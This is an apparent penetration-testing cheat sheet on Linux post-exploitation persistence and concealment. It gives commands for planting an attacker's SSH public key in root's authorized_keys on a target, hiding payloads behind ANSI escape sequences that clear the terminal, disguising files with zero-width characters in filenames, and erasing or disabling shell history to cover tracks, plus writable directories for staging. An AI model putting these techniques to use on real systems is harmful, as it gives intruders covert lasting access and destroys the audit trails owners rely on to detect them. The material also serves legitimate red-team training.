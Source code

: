 # SSH persistence password-less

```
kali@kali:~$ ssh-keygen

kali@kali:~$ cat:~/.ssh/id_rsa.pub
```

in the target shell type:

```
mkdir /root/.ssh
echo “rsa public key from kali machine” > /root/.ssh/authorized_keys
```

now login without password:

```
kali@kali:~$ ssh root@sandbox.local
```

## <mark style="color:red;">Tips</mark>

Hide the payload with ANSI chars, the following chars will clear the terminal when using cat to display the content of your payload.

```
#�[2J�[2J�[2J�[2H�[2A# Do not remove. Generated from /etc/issue.conf by configure.
```

Hide in plain sight using zero width spaces in filename.

```
touch $(echo -n 'index\u200D.php') index.php
```

Clear the last line of the history.

```
history -d $(history | tail -2 | awk '{print $1}') 2> /dev/null
```

Clear history:

```
[SPACE] ANY COMMAND
or
export HISTSIZE=0
export HISTFILESIZE=0
unset HISTFILE; CTRL-D
or
kill -9 $$
or
echo "" > ~/.bash_history
or
rm ~/.bash_history -rf
or
history -c
or
ln /dev/null ~/.bash_history -sf
```

The following directories are temporary and usually writable

```
/var/tmp/
/tmp/
/dev/shm/
```
